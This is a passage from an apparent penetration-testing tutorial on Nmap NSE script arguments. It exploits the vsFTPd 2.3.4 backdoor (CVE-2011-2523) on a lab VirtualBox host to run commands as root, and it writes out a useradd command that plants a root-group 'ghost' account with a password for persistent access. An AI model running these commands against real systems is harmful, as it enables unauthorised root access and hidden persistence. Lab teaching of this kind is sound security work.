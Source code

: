 Finally, NSE scripts can take multiple arguments from standard input. In our previous `ftp-vsftpd-backdoor` scan, the `id` shell command was executed as the `cmd` argument. Corresponding output suggests the exploit in question provides root-level access. We will explore this in a moment. First, let's try something a little more cliche.

This command sentence has been spread across two lines for readability.  
```bash
nmap --script ftp-vsftpd-backdoor \
--script-args cmd="echo Hello World" -p21 192.168.56.4
```
```python
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-02 09:58 EST
Nmap scan report for 192.168.56.4
Host is up (0.00046s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-vsftpd-backdoor:
|   VULNERABLE:
|   vsFTPd version 2.3.4 backdoor
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2011-2523  OSVDB:73573
|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
|     Disclosure date: 2011-07-03
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root)
|       Shell command: echo Hello World
|       Results: Hello World
|     References:
|       https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
|       http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523
|_      http://osvdb.org/73573
MAC Address: 08:00:27:30:63:69 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.33 seconds
```

NSE scripts can also take arguments from a file, which helps with crafting more elaborate probing, analysis, and exploitation. In this scan, we are going to use a file to define `useradd` as our `cmd` argument and attempt to establish persistent access on our target.  
```bash
echo 'cmd="useradd -g root -s /bin/bash ghost && echo ghost:boo | chpasswd"' \
> /hauntingYou.txt
```
Ensure to use the absolute file-path to your args file for your scan (especially if it saved somewhere wonky).
```bash
nmap --script ftp-vsftpd-backdoor \
--script-args-file=/hauntingYou.txt -p21 192.168.56.4
```
```python
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-02 10:00 EST
Nmap scan report for 192.168.56.4
Host is up (0.00053s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-vsftpd-backdoor:
|   VULNERABLE:
|   vsFTPd version 2.3.4 backdoor
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2011-2523  OSVDB:73573
|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
```
